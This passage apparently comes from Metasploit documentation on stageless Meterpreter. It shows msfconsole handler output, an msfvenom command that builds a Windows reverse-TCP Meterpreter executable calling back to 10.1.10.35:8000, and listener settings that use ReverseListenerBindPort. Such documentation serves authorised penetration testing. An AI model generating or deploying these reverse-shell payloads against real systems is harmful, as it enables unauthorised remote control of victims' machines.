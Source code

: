 ```


Payload options (windows/meterpreter_reverse_tcp):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   EXITFUNC    process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                   no        Comma-separate list of extensions to load
   EXTINIT                      no        Initialization strings for extensions
   LHOST       10.1.10.35       yes       The listen address
   LPORT       8000             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf exploit(handler) > run -j
[*] Exploit running as background job.

[*] [2016.10.05-12:25:23] Started reverse TCP handler on 10.1.10.35:8000
msf exploit(handler) > [*] [2016.10.05-12:25:23] Starting the payload handler...
```
When we generate a matching payload for this listener we can use the following:
```
$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.1.10.35 LPORT=8000 -f exe -o /tmp/stageless8000.exe
```

Next we create a staged listener, but we do the following:

1. We leave `LPORT` set to `8000`, because this is what we want the transport configuration to contain.
1. We set `ReverseListenerBindPort` to something different (`9000` in our example), as this forces the listener to bind to another port, which we will point our staged payload at.

```
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set ReverseListenerBindPort 9000
ReverseListenerBindPort => 9000
msf exploit(handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.1.10.35       yes       The listen address
   LPORT     8000             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

  [Reflective DLL Injection]: http://www.harmonysecurity.com/files/HS-P005_ReflectiveDllInjection.pdf
  [MS08-067]: https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
  [Brent Cook]: https://twitter.com/busterbcook
  [config-wiki]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Configuration